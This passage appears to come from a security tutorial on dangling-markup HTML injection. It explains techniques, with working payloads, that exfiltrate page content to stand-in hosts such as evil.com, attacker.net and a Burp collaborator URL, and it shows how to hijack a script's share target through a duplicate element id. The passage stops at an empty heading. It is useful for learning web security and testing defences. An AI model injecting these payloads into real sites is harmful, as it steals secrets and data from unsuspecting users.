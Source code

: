 ### Stealing clear text secrets via noscript

`<noscript></noscript>` Is a tag whose content will be interpreted if the browser doesn't support javascript (you can enable/disable Javascript in Chrome in [chrome://settings/content/javascript](chrome://settings/content/javascript)).

A way to exfiltrate the content of the web page from the point of injection to the bottom to an attacker controlled site will be injecting this:

```html
<noscript><form action=http://evil.com><input type=submit style="position:absolute;left:0;top:0;width:100%;height:100%;" type=submit value=""><textarea name=contents></noscript>
```

### Bypassing CSP with user interaction

From this [portswiggers research](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup) you can learn that even from the **most CSP restricted** environments you can still **exfiltrate data** with some **user interaction**. In this occasion we are going to use the payload:

```html
<a href=http://attacker.net/payload.html><font size=100 color=red>You must click me</font></a>
<base target='
```

Note that you will ask the **victim** to **click on a link** that will **redirect** him to **payload** controlled by you. Also note that the **`target`** attribute inside the **`base`** tag will contain **HTML content** until the next single quote.\
This will make that the **value** of **`window.name`** if the link is clicked is going to be all that **HTML content**. Therefore, as you **control the page** where the victim is accessing by clicking the link, you can access that **`window.name`** and **exfiltrate** that data:

```html
<script>
  if(window.name) {
      new Image().src='//your-collaborator-id.burpcollaborator.net?'+encodeURIComponent(window.name);
</script>
```

### Misleading script workflow 1 - HTML namespace attack

Insert a new tag with and id inside the HTML that will overwrite the next one and with a value that will affect the flow of a script. In this example you are selecting with whom a information is going to be shared:

```html
<input type="hidden" id="share_with" value="fredmbogo" /> ← Injected markup ...
Share this status update with: ← Legitimate optional element of a dialog
<input id="share_with" value="" />

... function submit_status_update() { ... request.share_with =
document.getElementById('share_with').value; ... }
```

### Misleading script workflow 2 - Script namespace attack
